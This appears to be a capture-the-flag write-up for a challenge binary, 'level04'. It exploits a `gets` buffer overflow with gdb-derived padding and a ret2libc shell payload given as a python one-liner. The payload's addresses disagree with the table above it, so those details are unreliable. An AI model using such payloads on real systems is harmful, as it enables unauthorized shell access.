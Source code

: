 # Cant trace me (level04)

This [binary](source.c) is a simple case of `gets` being used and being as
vulnerable as ever. The `fork`/`ptrace` setup just makes it hard to use gdb on
this program's child process. But this is not really needed. From gdb we still
can see how the stack looks like. We can compute how many bytes of padding we
need instead of seeing it empirically with test payloads as we do usually.

Since this is a classic `gets` buffer overflow we can overwrite by any number of
bytes we need, which means that we can simply execute a
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/) exploit.

```shell
# run gdb on the binary
gdb ./level04
(gdb) disass main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
```

Two registers are pushed to the stack. Since this is a 32bit binary, this is 8
bytes of data. Then esp is aligned, so it is substracted by any value between 0
and 15 (inclusive). Then 0xb0 (176) is substracted from the esp pointer to
allocate the stack necessary to the _main_ function. So that's at least 184
bytes of stack for this function. The buffer given to `gets` starts at
exp + 0x20, which means we have to substract 32 bytes to get the length of the
stack we must overwrite to access _main_'s return address. Also we have to add 4
bytes because the goal is ebp + 4. So this amounts to: 8 + 176 - 32 + 4 = 156.
So we need at least 156 bytes of padding.

### Payload

| padding (156) | system (4) | exit (4)   | libc's "/bin/sh" string |
|---------------|------------|------------|-------------------------|
| 0x616161...   | 0xb7e6aed0 | 0xb7e5eb70 | 0xf7f897ec              |

```shell
(python -c 'print "a" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04
```

And it works ;)
